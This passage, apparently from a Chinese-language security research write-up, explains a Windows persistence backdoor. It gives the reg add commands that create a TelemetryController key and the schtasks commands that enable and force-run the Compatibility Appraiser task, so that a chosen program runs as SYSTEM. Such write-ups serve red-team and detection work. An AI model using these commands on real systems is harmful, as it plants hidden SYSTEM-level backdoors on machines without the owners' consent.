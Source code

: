 ```
schtasks /query /tn "\Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser" /v
```

修改计划任务状态，将禁用状态改为启用：

```
schtasks /Change /ENABLE /tn "\Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser"
```

## 0x03 常规利用方法
---

### 1.修改注册表

修改注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController`

新建任意名称的Key，键值信息如下：

```
Command   REG_SZ 	C:\Windows\system32\notepad.exe
Nightly   REG_DWORD	1
```

以上操作可通过命令行实现，命令如下：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\fun" /v Nightly /t REG_DWORD /d 1
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\TelemetryController\fun" /v Command /t REG_SZ /d "C:\Windows\system32\notepad.exe" /f
```

**注：**

这里创建了名为`fun`的Key

### 2.开启计划任务`Microsoft Compatibility Appraiser`

可以选择等待计划任务启动

也可以强制开启，命令如下：

```
schtasks /run /tn "\Microsoft\Windows\Application Experience\Microsoft Compatibility Appraiser"
```

后门触发，在Win10系统下会立即以System权限启动进程CompatTelRunner.exe和notepad.exe

**注：**

CompatTelRunner.exe为notepad.exe的父进程，如果进程notepad.exe正在运行，那么进程CompatTelRunner.exe一直处于阻塞状态

## 0x04 在Win7和Server2012R2下遇到的问题
---
